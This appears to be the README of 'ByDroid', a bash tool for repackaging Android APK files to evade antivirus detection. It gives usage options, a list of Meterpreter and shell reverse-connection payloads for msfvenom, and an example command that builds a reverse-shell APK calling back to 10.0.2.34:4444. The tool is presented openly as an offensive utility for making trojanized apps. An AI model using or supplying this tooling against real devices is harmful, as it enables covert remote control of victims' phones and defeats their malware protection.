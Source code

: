 # ByDroid
A simple bash script for edit Android APK files and evade AVs changing the package

## Usage
```
bydroid.sh [OPTIONS] package [file]
OPTIONS:
  -h, --help          show help message
  -g, --generate      generate an apk with msfvenom (requires: -P, -l, -p)
  -P, --payload       set the payload for msfvenom (see below)
  -l, --lhost         set the lhost for msfvenom payload
  -p, --port          set the port for msfvenom payload
  -n, --name          change the app name (not implemented yet)
  -i, --icon          change the app icon (not implemented yet)
  -o, --output        select the output file
```

The `package` parameter means the new package for the app.

The `file` parameter is the input file to patch (ignored when use `-g`).

### Payloads
```
android/meterpreter/reverse_http
android/meterpreter/reverse_https
android/meterpreter/reverse_tcp
android/shell/reverse_http
android/shell/reverse_https
android/shell/reverse_tcp
```

## Dependencies
- msfvenom            (_only when use `-g`_)  https://github.com/rapid7/metasploit-framework
- apktool                                     https://ibotpeaches.github.io/Apktool/
- d2j-apk-sign                                http://repository-dex2jar.forge.cloudbees.com/snapshot/com/googlecode/d2j/dex-tools/2.1-SNAPSHOT/

_All of them included in Kali Linux_

## TODO
- [ ] Function -n (change name)
- [ ] Function -i (change icon)
- [ ] List missing dependencies
- [ ] Prompt for bin location when not found

## EXAMPLES

`bydroid.sh com.new.package app.apk`

Changes the package of `app.apk` to `com.new.package` and gives an output file `out.apk`

`bydroid.sh com.new.package app.apk -o edited.apk -n "New Name" -i ~/images/icon.png`

Changes the package to `com.new.package`, the name of the app to `New Name` and the icon with the selected image, and gives the output file `edited.apk`

`bydroid.sh com.new.package -g -P android/shell/reverse_tcp -l 10.0.2.34 -p 4444 -o payload.apk`

Generates a payload `android/shell/reverse_tcp` which connects to `10.0.2.34:4444` and gives the output file `payload.apk`


